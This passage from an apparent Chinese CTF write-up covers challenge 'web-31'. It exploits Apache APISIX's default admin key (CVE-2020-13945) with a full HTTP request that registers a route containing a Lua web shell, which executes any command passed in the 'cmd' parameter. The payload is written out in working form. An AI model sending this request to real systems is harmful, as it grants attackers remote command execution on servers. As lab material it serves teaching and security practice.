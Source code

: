 ![result](./web-30-2.png)

### web-31 密钥，密钥，不能默认

观察端口9080和返回的header-server数据，判断是 Apache APISIX，通过搜索发现有个默认密钥漏洞 CVE-2020-13945。构造请求，添加任意命令执行的路由。

```http request
POST /apisix/admin/routes HTTP/1.1
Host: 10.167.32.15:9080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Connection: close
Content-Length: 415

{
    "uri": "/hello/sumy.html",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```
